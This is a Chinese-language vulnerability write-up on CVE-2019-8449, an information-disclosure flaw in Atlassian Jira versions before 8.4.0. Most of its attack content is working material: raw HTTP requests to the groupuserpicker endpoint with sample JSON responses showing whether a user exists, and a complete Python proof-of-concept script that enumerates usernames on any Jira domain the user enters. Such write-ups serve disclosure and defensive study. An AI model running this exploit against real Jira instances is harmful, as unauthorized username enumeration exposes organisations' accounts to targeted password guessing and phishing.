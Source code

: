（CVE-2019-8449）Atlassian Jira 信息泄露漏洞
============================================

一、漏洞简介
------------

Atlassian
Jira是澳大利亚Atlassian公司的一套缺陷跟踪管理系统。该系统主要用于对工作中各类问题、缺陷进行跟踪管理。
Atlassian Jira
8.4.0之前版本中的/rest/api/latest/groupuserpicker资源存在信息泄露漏洞。该漏洞源于网络系统或产品在运行过程中存在配置等错误。未授权的攻击者可利用漏洞获取受影响组件敏感信息。

二、漏洞影响
------------

Atlassian Jira 7.12\< 受影响版本\<8.4.0

三、复现过程
------------

某JIRA站点www.0-sec.org

我以目标是虚假的情况下，www.0-sec.org没有zerosec用户进行请求

    GET /rest/api/latest/groupuserpicker?query=zerosec&maxResults=50&showAvatar=false HTTP/1.1
    Host: www.0-sec.org
    Pragma: no-cache
    Cache-Control: no-cache
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close

该站点会返回一串json数据，说明找不到该用户

    {"users":{"users":[],"total":0,"header":"显示 0 匹配的用户(共 0个)"},"groups":{"header":"显示 0 个匹配的组(共 0个)","total":0,"groups":[]}}

但是当我以一个已知用户身份测试时

    GET /rest/api/latest/groupuserpicker?query=DesMond&maxResults=50&showAvatar=false HTTP/1.1
    Host: www.0-sec.org
    Pragma: no-cache
    Cache-Control: no-cache
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close

会返回相应用户的一些信息

    {"users":{"users":[{"name":"Desmond","key":"Desmond","html":"Desmond(Des)-test (<strong>Desmond</strong>)","displayName":"Desmond(Des)-test"}],"total":1,"header":"显示 1 匹配的用户(共 1个)"},"groups":{"header":"显示 0 个匹配的组(共 0个)","total":0,"groups":[]}}

### poc

> CVE-2019-8449.py

    # Exploit Title: Jira 8.3.4 - Information Disclosure (Username Enumeration)
    # Date: 2019-09-11
    # Exploit Author: Mufeed VH
    # Vendor Homepage: https://www.atlassian.com/
    # Software Link: https://www.atlassian.com/software/jira
    # Version: 8.3.4
    # Tested on: Pop!_OS 19.10
    # CVE : CVE-2019-8449

    # CVE-2019-8449 Exploit for Jira v2.1 - v8.3.4
    # DETAILS :: https://www.cvedetails.com/cve/CVE-2019-8449/
    # CONFIRM :: https://jira.atlassian.com/browse/JRASERVER-69796

    #!/usr/bin/env python


    __author__  = "Mufeed VH (@mufeedvh)"

    import os
    import requests


    class CVE_2019_8449:
        def ask_for_domain(self):
            domain = raw_input("[>] Enter the domain of Jira instance: => ")
            if domain == "":
                print("\n[-] ERROR: domain is required\n")
                self.ask_for_domain()
            self.url = "https://{}/rest/api/latest/groupuserpicker".format(domain)

        def ask_for_query(self):
            self.query = raw_input("[>] Enter search query: [required] (Example: admin) => ")
            if self.query == "":
                print("\n[-] ERROR: The query parameter is required\n")
                self.ask_for_query()    

        def exploit(self):
            self.ask_for_domain()
            self.ask_for_query()

            maxResults = raw_input("\n[>] Enter the number of maximum results to fetch: (50) => ")
            showAvatar = raw_input("\n[>] Enter 'true' or 'false' whether to show Avatar of the user or not: (false) => ")
            fieldId = raw_input("\n[>] Enter the fieldId to fetch: => ")
            projectId = raw_input("\n[>] Enter the projectId to fetch: => ")
            issueTypeId = raw_input("\n[>] Enter the issueTypeId to fetch: => ")
            avatarSize = raw_input("\n[>] Enter the size of Avatar to fetch: (xsmall) => ")
            caseInsensitive = raw_input("\n[>] Enter 'true' or 'false' whether to show results case insensitive or not: (false) => ")
            excludeConnectAddons = raw_input("\n[>] Indicates whether Connect app users and groups should be excluded from the search results. If an invalid value is provided, the default value is used: (false) => ")    

            params = {
                'query': self.query, 
                'maxResults': maxResults, 
                'showAvatar': showAvatar, 
                'fieldId': fieldId, 
                'projectId': projectId, 
                'issueTypeId': issueTypeId, 
                'avatarSize': avatarSize, 
                'caseInsensitive': caseInsensitive, 
                'excludeConnectAddons': excludeConnectAddons
            }

            send_it = requests.get(url = self.url, params = params)

            try:
                response = send_it.json()
            except:
                print("\n[-] ERROR: Something went wrong, the request didn't respond with a JSON result.")
                print("[-] INFO: It is likely that the domain you've entered is wrong or this Jira instance is not exploitable.")
                print("[-] INFO: Try visting the target endpoint manually ({}) and confirm the endpoint is accessible.".format(self.url))
                quit()
            
            print("\n<========== RESPONSE ==========>\n")
            print(response)
            print("\n<==============================>\n")

    if __name__ == '__main__':
        os.system('cls' if os.name == 'nt' else 'clear')
        
        print('''
            ================================================
            |                                              |
            | CVE-2019-8449 Exploit for Jira v2.1 - v8.3.4 |
            |  Proof of Concept By: Mufeed VH [@mufeedvh]  |
            |                                              |
            ================================================
        ''')

        CVE_2019_8449().exploit()
